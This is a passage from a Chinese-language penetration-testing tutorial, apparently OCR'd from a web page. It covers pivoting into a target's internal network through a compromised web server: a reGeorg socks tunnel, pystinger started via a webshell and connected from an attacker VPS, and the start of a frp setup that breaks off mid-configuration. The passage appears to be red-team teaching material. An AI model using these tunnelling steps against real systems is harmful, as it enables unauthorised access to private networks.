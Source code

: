 在本地PC运行如下命令

1-

python reGeorgSocksProxy.py -p 8080 -h 0.0.0.0 -u http://aaa.com/tunnel.jsp-

此时，将在本地PC的8080开启一个Socks端口，使用Proxifier即可进行代理。需要注意的是，由于这个http代理隧道比较脆弱，建议根据每个目标host单独添加规则，最好不要设置成全局代理。

**二.pystinger**

蜂刺-stinger\_client

[pystinger](https://github.com/FunnyWolf/pystinger)

整体结构：

1.上传 proxy.jsp到目标Web服务器，上传stinger\_server/stinger\_server.exe到目标系统。

2.使用Webshell启动stinger\_server

1-
2-
3-
4-
5-

Linux:-
chmod +x /tmp/stinger\_server-
nohup /tmp/stinger\_server>/dev/null nohup.out &-
-
Windows: start D:/XXX/stinger\_server.exe-

3.VPS服务端启动监听

1-

./stinger\_client -w http://aaa.com/proxy.jsp -l 0.0.0.0 -p 60000-

以上操作成功后，VPS会监听60000端口，接下来直接配置好Proxifier就可以访问目标内网了。

特别注意：这个代理也不是很稳定，有时候会断开(Wrong data)。遇到断开情况后，手动kill stinger\_server进程 再启动，最后重启VPS服务端stinger\_client即可

###### 场景四 TCP出网-socks代理

**[frp](https://github.com/fatedier/frp)**

搭建步骤：-
1.VPS运行服务端

1-

./frps -c frps.ini-

注：建议用Screen将frp挂起到后台，Screen挂起程序参考[用screen 在后台运行程序 - 简书](https://www.jianshu.com/p/b24f597c0561)

frps.ini内容：

1-
2-
3-
4-
5-
6-
